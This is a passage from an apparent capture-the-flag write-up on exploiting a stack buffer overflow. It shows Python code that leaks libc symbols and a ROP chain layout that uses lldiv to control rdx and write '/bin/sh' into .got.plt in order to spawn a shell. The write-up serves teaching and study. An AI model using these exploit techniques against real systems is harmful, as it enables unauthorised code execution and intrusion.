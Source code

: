 ```python
        if offset != 0:
            sym = leak(strtab+offset)
            sym_addr = upleak_safe(symtab + i + 8)
            libc_map.put(sym, sym_addr, i)
            if sym == symbol:
                return sym_addr
        i += 24
```
This time, the dynamic section address points to the one mapped in our process' space, and it is therefore readable.

The `libc_map` variable is an instance of `LibcMap`, a class used to keep current found symbols from libc, which stores relative offsets of symbols and the current search progress:

```python
class LibcMap:

    libc_map = {}
    last_scanned_offset = 0

    def put(self, symbol, address, scanned_offset):
        if address != 0:
            self.libc_map[str(symbol,'utf-8')] = address
        self.last_scanned_offset = scanned_offset

    def get(self, symbol):
        if symbol in self.libc_map:
            return self.libc_map[symbol]

        return None

```

## A history of "/bin/sh"

My first attempt of solution, involved finding the `"/bin/sh"` string inside the libc itself, by trivially searching linearly. This worked, but was really slow and the search could last hours.

To overcome this, i tried to parse the libc's ELF headers, digging for `.rodata` address to start the search from there, but the problem of unreadable memory mapping (PROT_NONE permission) came up again.

Finally, i decided for writing the `"/bin/sh"` string, surgically, into an unused entry of `.got.plt`. In order to use directly the `read` pointer we have in `.got.plt`, it is necessary to control `rdx` to pass in the `count` param. Unfortunately, no ROP gadgets are available in our binary to do this, so i found a way to use the `lldiv` libc function to control `rdx`, which will store the remainder of the division (since internally it uses the `idiv` instruction).

Here is the buffer overlow layout for performing the surgical, repeatable, write operation:

Chunk Contents   | Chunk length   | Meaning 
-----------------| ---------------|----------------
????             | 32 bytes       | Initial data, regularly inside the buffer
XXXXXXXX         | 8 bytes        | Overwrites saved frame pointer (don't care)
0x00400703       | 8 bytes        | pop rdi; ret;
YYYYYYYY			  | 8 bytes		| length of data to be written
0x00400701		| 8 bytes			| pop rsi; pop r15; ret;
YYYYYYYY+1		| 8 bytes			| length plus one (so the remainder of division will be the length itself)
0					| 8 bytes			| unused (r15)
&lldiv				| 8 bytes			| address of `lldiv`
0x00400701		| 8 bytes			| pop rsi; pop r15; ret;
ZZZZZZZZ			| 8 bytes			| destination address for `read`
0					| 8 bytes			| unused (r15)
0x00400703       | 8 bytes       | pop rdi; ret;
0					| 8 bytes			| source fd = stdin
0x004004d0		| 8 bytes			| address of `read` in the plt (initialized after the first use)